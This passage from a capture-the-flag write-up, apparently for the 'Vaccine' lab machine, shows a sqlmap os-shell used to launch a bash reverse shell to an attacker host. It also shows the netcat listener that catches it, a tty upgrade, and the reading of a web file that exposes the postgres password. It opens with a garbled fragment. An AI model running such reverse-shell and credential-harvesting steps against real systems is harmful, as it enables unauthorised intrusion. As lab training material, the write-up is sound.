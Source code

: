 ```
o
s
t
g
r
e
s
---
os-shell> 
```

This can be used to execute a bash reverse shell.

```
os-shell> bash -c 'bash -i >& /dev/tcp/10.10.15.4/4444 0>&1'
do you want to retrieve the command standard output? [Y/n/a] 
[08:37:19] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
```

```
$ nc -nvlp 4444                                
listening on [any] 4444 ...
connect to [10.10.15.4] from (UNKNOWN) [10.10.10.46] 45096
bash: cannot set terminal process group (2134): Inappropriate ioctl for device
bash: no job control in this shell
postgres@vaccine:/var/lib/postgresql/11/main$ whoami
whoami
postgres
```

### Privilege Escalation

Let's upgrade to a tty shell and continue enumeration.

```
SHELL=/bin/bash script -q /dev/null
```

Looking at the source code of `dashboard.php` in `/var/www/html` reveals the postgres password to be: `P@s5w0rd!`.

```
postgres@vaccine:/var/lib/postgresql/11/main$ cd /var/www/html
cd /var/www/html
postgres@vaccine:/var/www/html$ ls        
ls
bg.png
dashboard.css
dashboard.js
dashboard.php
index.php
license.txt
style.css
postgres@vaccine:/var/www/html$ cat dashboard.php
cat dashboard.php
<!DOCTYPE html>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>Admin Dashboard</title>
  <link rel="stylesheet" href="./dashboard.css">
  <script src="https://use.fontawesome.com/33a3739634.js"></script>

</head>
<body>
<!-- partial:index.partial.html -->
```